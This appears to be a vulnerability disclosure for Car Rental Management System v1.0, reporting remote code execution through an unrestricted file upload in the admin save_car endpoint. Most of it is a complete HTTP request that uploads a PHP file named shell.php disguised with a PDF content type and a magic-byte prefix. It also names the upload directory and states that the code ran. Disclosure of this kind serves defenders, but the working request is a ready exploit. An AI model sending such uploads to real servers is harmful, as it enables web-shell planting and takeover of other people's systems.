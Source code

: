 # Car Rental Management System v1.0 has arbitrary code execution (RCE)

vendor: https://www.campcodes.com/projects/php/car-rental-management-system/

Vulnerability url: ip/car-rental-management-system/admin/ajax.php?action=save_car

Request package for file upload：

```sql
POST /car-rental-management-system/admin/ajax.php?action=save_car HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/car-rental-management-system/admin/index.php?page=manage_car&id=6
Content-Length: 1107
Content-Type: multipart/form-data; boundary=---------------------------16501296121152
Cookie: PHPSESSID=q0aiu0hqk51vrl4kivubc7u18k
Connection: close

-----------------------------16501296121152
Content-Disposition: form-data; name="id"

6
-----------------------------16501296121152
Content-Disposition: form-data; name="brand"

1
-----------------------------16501296121152
Content-Disposition: form-data; name="model"

1
-----------------------------16501296121152
Content-Disposition: form-data; name="category_id"

6
-----------------------------16501296121152
Content-Disposition: form-data; name="engine_id"

3
-----------------------------16501296121152
Content-Disposition: form-data; name="transmission_id"

3
-----------------------------16501296121152
Content-Disposition: form-data; name="description"

111
-----------------------------16501296121152
Content-Disposition: form-data; name="price"

10
-----------------------------16501296121152
Content-Disposition: form-data; name="qty"

110
-----------------------------16501296121152
Content-Disposition: form-data; name="img"; filename="shell.php"
Content-Type: application/pdf

JFJF
<?php phpinfo();?>
-----------------------------16501296121152--
```

The files will be uploaded to this directory \admin\assets\uploads\cars_img\
![image](https://user-images.githubusercontent.com/54017627/170957334-c7be6854-91bd-4228-8b61-ae605921f0ca.png)

We visited the directory of the file in the browser and found that the code had been executed

![image](https://user-images.githubusercontent.com/54017627/170957514-ef8e3f43-875c-446f-8bf3-dab2547c5ae9.png)
